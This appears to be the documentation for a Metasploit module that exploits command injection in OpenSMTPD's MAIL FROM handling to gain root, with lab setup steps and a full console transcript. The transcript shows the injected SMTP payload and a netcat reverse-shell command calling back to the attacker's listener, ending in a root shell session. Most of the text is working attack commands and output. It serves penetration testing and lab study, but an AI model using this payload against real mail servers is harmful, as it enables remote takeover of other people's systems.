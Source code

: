 ## Vulnerable Application

### Description

This module exploits a command injection in the `MAIL FROM` field during
SMTP interaction with OpenSMTPD to execute a command as the root user.

### Setup

1. Download [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system, noting the domain name (defaults to `foo.localdomain` in VMware)
3. Configure the following settings in `/etc/mail/smtpd.conf`:
  * `listen on all`
  * `match from any for domain "foo.localdomain" action "local_mail"`
4. Execute `/etc/rc.d/smtpd restart` to restart OpenSMTPD
5. Execute `ifconfig` and look for an appropriate target IP

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets OpenSMTPD versions 6.4.0 through 6.6.1.

## Options

### RCPT_TO

Set this to a valid mail recipient. The default is `root`.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf5 > use exploit/unix/smtp/opensmtpd_mail_from_rce
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > options

Module options (exploit/unix/smtp/opensmtpd_mail_from_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RCPT_TO  root             yes       Valid mail recipient
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    25               yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   OpenSMTPD 6.4.0 - 6.6.1


msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set rhosts 172.16.249.137
rhosts => 172.16.249.137
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > run

[+] mkfifo /tmp/twkfr; nc 172.16.249.1 4444 0</tmp/twkfr | /bin/sh >/tmp/twkfr 2>&1; rm /tmp/twkfr
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] 172.16.249.137:25 - Executing automatic check (disable AutoCheck to override)
[!] 172.16.249.137:25 - The service is running, but could not be validated.
[*] 172.16.249.137:25 - Connecting to OpenSMTPD
[*] 172.16.249.137:25 - Saying hello and sending exploit
[*] 172.16.249.137:25 - Expecting: /220.*OpenSMTPD/
[+] 172.16.249.137:25 - Received: 220 foo.localdomain ESMTP OpenSMTPD
[*] 172.16.249.137:25 - Sending: HELO JijrF2eskbXFfdlaV
[*] 172.16.249.137:25 - Expecting: /250.*pleased to meet you/
[+] 172.16.249.137:25 - Received:
250 foo.localdomain Hello JijrF2eskbXFfdlaV [172.16.249.1], pleased to meet you
[*] 172.16.249.137:25 - Sending: MAIL FROM:<;for W in a n 0 9 g D 7 N 7 B K R i u;do read W;done;sh;exit 0;>
[*] 172.16.249.137:25 - Expecting: /250.*Ok/
[+] 172.16.249.137:25 - Received:
250 2.0.0 Ok
[*] 172.16.249.137:25 - Sending: RCPT TO:<root>
[*] 172.16.249.137:25 - Expecting: /250.*Recipient ok/
[+] 172.16.249.137:25 - Received:
250 2.1.5 Destination address valid: Recipient ok
[*] 172.16.249.137:25 - Sending: DATA
[*] 172.16.249.137:25 - Expecting: /354 Enter mail.*itself/
[+] 172.16.249.137:25 - Received:
354 Enter mail, end with "." on a line by itself
[*] 172.16.249.137:25 - Sending:
#
#
#
#
#
#
#
#
#
#
#
#
#
#
mkfifo /tmp/rsnzh; nc 172.16.249.1 4444 0</tmp/rsnzh | /bin/sh >/tmp/rsnzh 2>&1; rm /tmp/rsnzh
[*] 172.16.249.137:25 - Sending: .
[*] 172.16.249.137:25 - Expecting: /250.*Message accepted for delivery/
[+] 172.16.249.137:25 - Received:
250 2.0.0 5bd4f87d Message accepted for delivery
[*] 172.16.249.137:25 - Sending: QUIT
[*] 172.16.249.137:25 - Expecting: /221.*Bye/
[+] 172.16.249.137:25 - Received:
221 2.0.0 Bye
[*] Command shell session 1 opened (172.16.249.1:4444 -> 172.16.249.137:28550) at 2020-02-28 10:28:14 -0600

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.localdomain 6.6 GENERIC#353 amd64
```
